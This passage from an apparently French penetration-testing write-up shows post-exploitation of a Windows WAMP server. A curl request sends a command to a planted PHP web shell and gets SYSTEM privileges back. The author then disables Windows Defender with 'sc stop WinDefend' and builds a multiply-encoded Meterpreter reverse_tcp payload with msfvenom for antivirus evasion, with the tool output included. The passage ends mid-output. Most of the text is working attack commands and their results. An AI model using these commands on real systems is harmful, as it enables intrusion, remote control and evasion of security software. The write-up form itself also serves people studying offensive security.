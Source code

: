 ```console
mysqld.exe                    7164 Services                   0    31�888 Ko
tomcat7.exe                  13836 Services                   0    50�648 Ko
cmd.exe                       4548 Services                   0     2�932 Ko
tasklist.exe                  7412 Services                   0     5�788 Ko
```

Et sous quel utilisateur je tourne au fait ?  

```console
$ curl --data 'f=passthru&a=whoami&rf=print' http://evil.corp/pictures/product/db.inc.php
autorite nt\syst�me
```

Vous ne revez pas, *WAMP* tourne bien en système du coup les commandes que l'on passe aussi. Pas d'escalade de privilèges à ajouter :)  

Parmi les services qui tournent on retrouve `AVP17.0.0`, `KSDE1.0.0` et `WinDefend`.  

Ce dernier peut être simplement stoppé avec `sc stop WinDefend`.  

Pour *Kaspersky* c'est une autre paire de manche.  

Bypass d'antivirus
------------------

Je vais générer une backdoor Meterpreter via [msfvenom](https://github.com/rapid7/metasploit-framework/wiki/How-to-use-msfvenom) et [Shellter](https://www.shellterproject.com/) pour diminuer mes chances d'être attrapé par l'antivirus.  

D'abord je génère un payload x86 raw avec `msfvenom` :  

```console
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=100.100.0.1 LPORT=7777 EXITFUNC=thread -f raw -e x86/shikata_ga_nai -i 5 | msfvenom -a x86 --platform windows -e x86/countdown -i 8  -f raw | msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -i 9 -f raw -o custom_payload

Attempting to read payload from STDIN...
Attempting to read payload from STDIN...
No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No Arch selected, selecting Arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 5 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 381 (iteration=0)
x86/shikata_ga_nai succeeded with size 408 (iteration=1)
x86/shikata_ga_nai succeeded with size 435 (iteration=2)
x86/shikata_ga_nai succeeded with size 462 (iteration=3)
x86/shikata_ga_nai succeeded with size 489 (iteration=4)
x86/shikata_ga_nai chosen with final size 489
Payload size: 489 bytes

Found 1 compatible encoders
Attempting to encode payload with 8 iterations of x86/countdown
x86/countdown succeeded with size 507 (iteration=0)
x86/countdown succeeded with size 525 (iteration=1)
x86/countdown succeeded with size 543 (iteration=2)
x86/countdown succeeded with size 561 (iteration=3)
x86/countdown succeeded with size 579 (iteration=4)
x86/countdown succeeded with size 597 (iteration=5)
x86/countdown succeeded with size 615 (iteration=6)
x86/countdown succeeded with size 633 (iteration=7)
x86/countdown chosen with final size 633
Payload size: 633 bytes

Found 1 compatible encoders
Attempting to encode payload with 9 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 660 (iteration=0)
x86/shikata_ga_nai succeeded with size 687 (iteration=1)
x86/shikata_ga_nai succeeded with size 714 (iteration=2)
```
